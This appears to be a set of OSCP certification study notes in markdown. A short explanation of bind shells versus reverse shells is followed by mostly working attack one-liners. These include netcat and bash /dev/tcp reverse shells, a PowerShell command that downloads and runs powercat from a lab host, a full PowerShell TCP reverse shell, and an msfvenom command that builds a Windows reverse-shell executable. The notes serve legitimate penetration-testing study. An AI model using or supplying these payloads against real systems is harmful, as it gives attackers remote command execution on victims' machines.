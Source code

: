 # OSCP Notes

## Bind shell vs reverse shell

### Bind shell

Basically, we are opening a port with our shell for other people to execute
- Client computer starts up a listening session with shell executing on that port
- Connector just connects to the listening port that has shell already running

### Reverse shell

Basically, we are sending our own shell over to the operator
- Operator listens on a port
- Client computer connects to the listening port on the operator with the client's own shell
- Operator now has control of clients shell

#### Netcat reverse shell

```sh
nc <listening_host> <listening_port> -e /bin/bash
```

#### TCP revsrse shell
```sh
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

#### Powercat reverse shell example

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

#### Powershell reverse shell

```sh
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### MSFvenom stageless reverse shell payload

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f exe > shell.exe
```
## Buffer overflows
